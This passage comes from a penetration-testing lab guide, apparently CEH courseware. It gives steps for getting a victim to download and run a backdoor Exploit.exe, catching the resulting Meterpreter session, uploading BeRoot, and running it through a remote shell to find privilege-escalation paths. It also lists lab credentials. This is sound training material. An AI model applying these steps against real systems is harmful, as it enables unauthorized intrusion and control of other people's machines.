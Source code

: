 	17. Open any web browser (here, Mozilla Firefox). In the address bar place your mouse cursor, type http://10.10.1.13/share and press Enter. As soon as you press enter, it will display the shared folder contents, as shown in the screenshot.
	18. Click the Exploit.exe file to download the backdoor file.
10.10.1.13 is the IP address of the host machine (here, the Parrot Security machine).
	
	19. Once you click on the Exploit.exe file, the Opening Exploit.exe pop-up appears; select Save File.
	20. The malicious file will be downloaded to the browser’s default download location (here, Downloads). Now, navigate to the download location and double-click the Exploit.exe file to run the program.
	
	21. An Open File – Security Warning window appears; click Run.
	
	22. Leave the Windows 11 machine running, so the Exploit.exe file runs in the background and click Parrot Security to switch to the Parrot Security machine.
	23. In the Terminal window, you can see that the Meterpreter session has successfully been opened.
	24. Type sessions -i 1 and press Enter (here, 1 is the id number of the session). Meterpreter shell is launched, as shown in the screenshot.
	
	25. Type getuid and press Enter. This displays the current user ID, as shown in the screenshot.
	
	26. Observe that the Meterpreter session is running with normal user privileges (WINDOWS11\Admin).
	27. Now that you have gained access to the target system with normal user privileges, your next task is to perform privilege escalation to attain higher-level privileges in the target system.
	28. First, we will use privilege escalation tools (BeRoot), which allow you to run a configuration assessment on a target system to find out information about its underlying vulnerabilities, services, file and directory permissions, kernel version, architecture, as well as other data. Using this information, you can find a way to further exploit and elevate the privileges on the target system.
	29. Now, we will copy the BeRoot tool on the host machine (Parrot Security), and then upload the tool onto the target machine (Windows 11) using the Meterpreter session.
	30. Minimize the Terminal window. Click the Places menu at the top of Desktop and click ceh-tools on 10.10.1.11 from the drop-down options.
If ceh-tools on 10.10.1.11 option is not present then follow the below steps to access CEH-Tools folder:
	• Click the Places menu present at the top of the Desktop and select Network from the drop-down options
	• The Network window appears; press Ctrl+L. The Location field appears; type smb://10.10.1.11 and press Enter to access Windows 11 shared folders.
	• The security pop-up appears; enter the Windows 11 machine credentials (Username: Admin and Password: Pa$$w0rd) and click Connect.
	• The Windows shares on 10.10.1.11 window appears; double-click the CEH-Tools folder.
	
	31. CEH-Tools folder appears, navigate to CEHv12 Module 06 System Hacking\Privilege Escalation Tools and copy the BeRoot folder. Close the window.
	
	32. Paste the BeRoot folder onto Desktop.
	
	33. Now, switch back to the Terminal window with an active meterpreter session. Type upload /home/attacker/Desktop/BeRoot/beRoot.exe and press Enter. This command uploads the beRoot.exe file to the target system’s present working directory (here, Downloads).
	
	34. Type shell and press Enter to open a shell session. Observe that the present working directory points to the Downloads folder in the target system.
	
	35. Type beRoot.exe and press Enter to run the BeRoot tool.
	36. A result appears, displaying information about service names along with their permissions, keys, writable directories, locations, and other vital data.
	37. You can further scroll down to view the information related to startup keys, task schedulers, WebClient vulnerabilities, and other items.
	